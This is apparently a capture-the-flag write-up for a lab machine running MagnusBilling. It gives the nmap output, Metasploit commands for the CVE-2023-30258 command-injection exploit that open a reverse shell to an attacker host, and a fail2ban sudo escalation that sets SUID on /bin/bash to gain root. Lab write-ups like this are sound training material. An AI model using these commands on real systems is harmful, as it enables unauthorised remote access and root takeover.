




MagnusBilling is an open-source VoIP billing software, we will see how to gain root access to the machine.
Nmap scan at 10.10.153.83
nmap -sV 10.10.153.83
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open http Apache httpd 2.4.56 ((Debian))
3306/tcp open mysql MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
as you can see port 80 (http) is open so let's see
The IP address takes us to the identification page of the "magnus billing" software.
By searching on the internet it is possible to see that there are exploits circulating on this software.
including one that interests us "rce cve 2023_30258" Command Injection vulnerability.
This exploit is available on Metasploit Framework, lets use it.
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf > set RHOST 10.10.153.83
msf > set LHOST 10.21.165.46
msf > exploit

and we have a reverse shell.
we now have the user flag

now for the root flag we need to find a way to become root
lets do a sudo -l

so we can exploit fail2ban because we have sudo rights on it.
By searching we can find that it is indeed possible to mount root thanks to fail2ban.
using the fail2ban exploit.
sudo fail2ban-client status
sudo fail2ban-client get sshd actions
sudo fail2ban-client set sshd addaction evil
sudo fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo fail2ban-client set sshd banip 1.2.3.5
/bin/bash -p
And we are root.

Billing 2 is a very good machine to start privilege escalation. 7/10